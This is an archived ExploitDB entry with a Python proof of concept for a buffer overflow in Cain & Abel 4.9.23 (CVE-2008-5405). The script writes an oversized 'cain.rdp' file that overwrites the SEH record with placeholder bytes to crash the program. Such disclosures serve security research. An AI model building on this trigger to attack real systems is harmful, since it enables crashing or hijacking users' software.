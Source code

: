 ```
              # Access violation When Reading [41414141]
			 #
              # And Also The Pointer to next SEH record and SE Handler
              # Will gonna BE Over-wrote
			 #
              # This Poc Will Gonna Overwrite the Pointer to next SEH
              # With"42424242" and The SE Handler with"43434343"
			 #
			 ##########################################################
			 chars = "A"*8194
			 ptns = "B"*4
			 shan = "C"*4
			 chars2 = "A"*200
              exp=open('cain.rdp','w')
              exp.write(chars+ptns+shan+chars2)
              exp.close()

              # milw0rm.com [2008-11-30]
description : Cain & Abel 4.9.23 (rdp file) Buffer Overflow PoC
author      : Encrypt3d.M!nd 
_id         : 7297
source      : ExploitDB
platform    : windows
date        : 2008-11-30T00:00:00+00:00
cve         : {2008-5405}
type        : dos
port        : 0 
```

The module should prove useful for security professionals in both red and blue team activities.